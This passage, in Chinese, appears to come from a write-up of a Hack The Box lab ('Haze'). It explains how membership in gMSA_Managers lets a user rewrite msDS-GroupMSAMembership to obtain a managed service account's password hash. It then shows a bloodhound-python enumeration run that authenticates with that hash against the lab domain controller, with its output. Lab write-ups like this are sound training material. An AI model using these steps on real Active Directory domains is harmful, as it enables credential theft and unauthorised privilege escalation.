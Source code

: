 ![](./images/image-366.png)

- [ms-DS-GroupMSAMembership attribute - Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/adschema/a-msds-groupmsamembership)

`msDS-GroupMSAMembership` 是 **Active Directory (AD)** 中 **管理服务账户（gMSA）** 相关的一个属性。它用于 **存储可以检索 `gMSA` 密码的组**，即 **允许哪些组或对象读取** 该 **组管理服务账户（gMSA）** 的密码。

由于**mark**是**gMSA\_Managers**组的，因此可以修改这个值，从而获取到**Backup**的密码哈希。

## BloodHound-2

注意！！！！！！！

如果使用的是mark.adams进行域内搜集的话，会因为权限的问题造成部分信息缺失。  
那么最好的习惯就是，拿到一个域内用户就尝试更新bloodhound的内容。

```
[root@kali] /home/kali/Haze  
❯ bloodhound-python -u 'Haze-IT-Backup$' --hashes ':735c02cXXXXXXXXXXXXXXXXXXX' -d haze.htb -dc dc01.haze.htb  -ns 10.xx.xx.xx -c all  --zip
INFO: Found AD domain: haze.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.haze.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.haze.htb
INFO: Found 9 users
INFO: Found 57 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc01.haze.htb
INFO: Done in 01M 07S
```

![](./images/image-368.png)

